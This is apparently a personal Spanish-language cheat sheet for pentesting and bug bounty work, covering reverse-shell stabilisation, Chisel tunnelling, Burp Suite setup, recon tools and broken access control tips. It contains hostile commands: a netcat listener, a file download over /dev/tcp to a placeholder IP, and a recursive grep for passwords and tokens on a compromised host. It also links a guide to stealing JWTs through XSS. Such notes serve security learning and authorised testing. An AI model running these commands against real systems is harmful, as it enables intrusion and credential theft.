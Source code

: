 # Varias cositas  

## Plantillas y ejemplos de reportes
Esto sirve para tomar como base cuando se quiere enviar un reporte sobre una vulnerabilidad.   
https://hacktify.in/bugbounty/   
  

## Comandos y funciones Bash utiles  

extractPorts  
https://gist.github.com/anibalardid/5e05b6472feb3d31116729dc24e6d3e2  

rmk  
https://gist.github.com/anibalardid/b2d4025152d913e398fcef6830d89cad  

mkt  
https://gist.github.com/anibalardid/6bbd0a8fefb507b88bc511d41ecd91ba  


## Diccionarios  

https://github.com/NullWin/DiccionarioArgentino  


## Tips  

### Comandos al ingresar por shell (reverse shell)  

whoami  
ifconfig o ip a  
  
script /dev/null -c bash  
^Z  
stty raw echo -echo; fg  
nc -nlvp 443  
reset  

terminal ? xterm  
export TERM=xterm  
export SHELL=bash  

en una ventana mia ejecutar: stty -a   
Y ver la cantidad de filas y columnas, para configurar lo mismo en la maquina remota  
stty rows 53 columns 206  

Buscamos credenciales  
grep -r -i -E "user|pass|key|token"  

Buscamos archivos   
find \-type f 2>/dev/null  

Script en python:  
https://pastebin.com/5GqY54FG  

### Chisel  
https://github.com/jpillora/chisel  

truco para compilar a bajo peso:  
go build -ldflags "-s -w"  
du -hc chisel  
upx brute chisel  
du -hc chisel  

> upx comprime binarios

desde maquina local hacer:  
nc -lnvp 443 < chisel  
y en maquina virtual:  
cat > chisel < /dev/tcp/ipxxx/443

maquina local:  
./chisel server --reverse -p puerto    

maquina ataque:  
./chisel client ip:puerto  

### Borrado seguro de archivos  
scrub y shred  

### TMUX  
Oh My TMUX  
https://github.com/gpakosz/.tmux  

Cheat Sheet  
https://gist.github.com/anibalardid/d5db8be18cabafe9fc8eea28c3fae2f7  


### Steghide - Esteganografía  
Buscar contenido en las imágenes  

http://steghide.sourceforge.net/  
https://fwhibbit.es/steghide-brute-force-tool  
https://github.com/Va5c0/Steghide-Brute-Force-Tool  
https://github.com/Paradoxis/StegCracker  


### Encodear (encoding) de payloads para pruebas  
CyberChef  
https://gchq.github.io/CyberChef/  

### Buscar directorios y subdominios con Burp Suite Pro
Extensiones interesantes a instalar en Burp Suite:  
```
XSS Validator
Software Vulnerability Scanner
Replicator
NoSQLi Scanner
JavaScript Security
Flow
Error Message Checks
CSRF Scanner
CMS Scanner
Burp Bounty
Autowasp
```

1- Abrir proxy y cargar sitio  
2- Ir a Target - Scope -> cambiar a modo avanzado y escribir solo una parte de la url, por ejemplo "hilton" , y luego poner NO  
3- Ir a Sitemap, tocar en la barra de Filter, y tildar "show only in scope items"  
4- Señalar todos los dominios, boton derecho, Scan  
5- Elegir opcion "Crawl", luego en SCAN CONFIGURATION -> select from library , agregar "crawl strategy faster" y "never stop..."  
6- En Resource pool, poner un maximo de request , por ej 50, que grabe , y darle a OK   
7- En Dashboard se puede ver el progreso de escaneo.  
8- En la solapa Flow tambien se puede ver el progreso, si no se tiene se instala de Extended -> BApp Store  


### Pasos The Bug Hunter's Methodology Full 2-hour Training by Jason Haddix  

- Búsqueda subdominios
amass, subfinder  

- Github Dorks
GitDorker: 
https://obheda12.medium.com/gitdorker-a-new-tool-for-manual-github-dorking-and-easy-bug-bounty-wins-92a0a0a6b8d5  
https://github.com/obheda12/GitDorker  
Hunter.sh:  
https://gist.github.com/anibalardid/9787094b9c642eadd217c7b6dd6dbfac  
  
Github Search :  
https://github.com/gwen001/github-search  

- Verificar subdominios  y dominios activos
httprobe:  
https://github.com/tomnomnom/httprobe  


--- 

### Broken Access Control
Tips de El Mago

Ejemplo de writeup    
https://galnagli.com/Samsung_Exposure/  
https://notifybugme.medium.com/unauthorized-access-to-admin-setpassword-page-by-bypass-403-forbidden-f10bbb92ab35  

### Tips  
crear 2 cuentas , comun y otra para admin (usando + o . , o mails temporales)  
usar match and replace de burp suite  
reemplazar false x true y true x false  (proxy, options, match and replace, como response body)  
leer los archivos js  
probar cambiar verbo/metodos  

Extension multi account container  

se le puede dar acceso a la cuenta desde un usuario a otro  
y vemos q hay opciones q no se ven  
en el burp, en proxy history, boton derecho - repeater  
hacemos lo mismo con un request del otro usuario   
probamos cambiar los authorization headers entre los requests  
e ir probando 1 x 1 varios endpoints  

Se puede automatizar, instalando desde BApp Store  : Authorize   

robar x xss sesion de jwt de localstorage   
https://medium.com/redteam/stealing-jwts-in-localstorage-via-xss-6048d91378a0   


### Encode 
Para usar xss, se puede encodear el código como unicode. 


## Como usar Burp Suite

### Configuración inicial
1) Instalar en el browser Foxy Proxy (o configurar a mano el proxy)
2) La config del proxy se encuentra en Proxy - Options 
3) Exportar el archivo del certificado .der
4) Importar certificado en el browser, en la sección de entidades , debe preguntar opciones al importar
5) Probar encender el proxy y cargar una web https para probar q funcione el certificado
6) En Burp en Proxy - Intercept , si esta en ON, podremos ir viendo los requests y responses, avanzando con el boton de Forward

### Uso Básico
1) Encender proxy
2) Poner Intercept en Off , hasta que querramos empezar a interceptar
3) Ir a la solapa TARGET y en Scope especificar la url, o con la opcion Avanzada elegir un regex
4) Luego en Proxy, ir a Opciones, y ahi poner AND en las opciones de Intercept Client Request
5) 



